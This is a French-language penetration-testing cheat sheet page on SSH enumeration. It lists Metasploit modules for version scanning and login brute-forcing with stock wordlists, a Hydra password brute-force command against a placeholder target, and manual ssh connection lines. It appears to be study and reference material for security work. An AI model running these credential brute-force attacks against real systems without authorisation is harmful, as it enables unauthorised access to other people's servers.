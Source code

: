 # 🔐 Énumération SSH

[← Retour à la table des matières](../README.md)

## Port par défaut : 22

## Metasploit Modules
```bash
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
    set STOP_ON_SUCCESS true
    set VERBOSE true
```

## Hydra Bruteforce → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ssh
```

## Connexion manuelle
```bash
ssh user@targetIP
ssh -p 2222 user@targetIP  # Port non-standard
```